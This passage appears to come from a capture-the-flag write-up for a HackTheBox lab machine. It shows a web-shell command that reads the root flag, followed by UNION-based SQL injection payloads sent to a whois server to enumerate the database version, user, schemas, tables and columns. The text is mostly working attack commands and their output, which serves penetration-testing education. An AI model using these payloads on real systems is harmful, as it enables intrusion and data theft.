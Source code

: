     
    
    root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode 'hidden=echo "g3tPr1v" > /dev/ttyR0; id; cat /root/root.txt'
    uid=0(root) gid=0(root) groups=0(root),1004(customers)
    4a08d817************************
    

## Beyond Root

### Whois SQLi

#### More SQLi

In my initial enumeration I found and dumped a bunch of domains via SQL
injection in the whois server. I did poke at that a bit more to see if I could
find anything useful.

DB version:

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT @@version,2#"
    % SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
    % for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
    % This query returned 1 object
    10.1.37-MariaDB-0+deb9u1
    

The current user:

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT user(),2#" | grep -vE "^%"
    whois@localhost
    

DBs:

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(schema_name SEPARATOR '\n'),2 FROM information_schema.schemata#" | grep -vE "^%"
    information_schema
    whois
    

Tables in `whois` database:

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(table_name SEPARATOR '\n'),2 FROM information_schema.tables WHERE table_schema = 'whois'#" | grep -vE "^%"
    customers
    

Columns in `customers` table:

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(column_name SEPARATOR '\n'),2 FROM information_schema.columns WHERE table_schema = 'whois'#" | grep -vE "^%"
    id
    domain
    data
    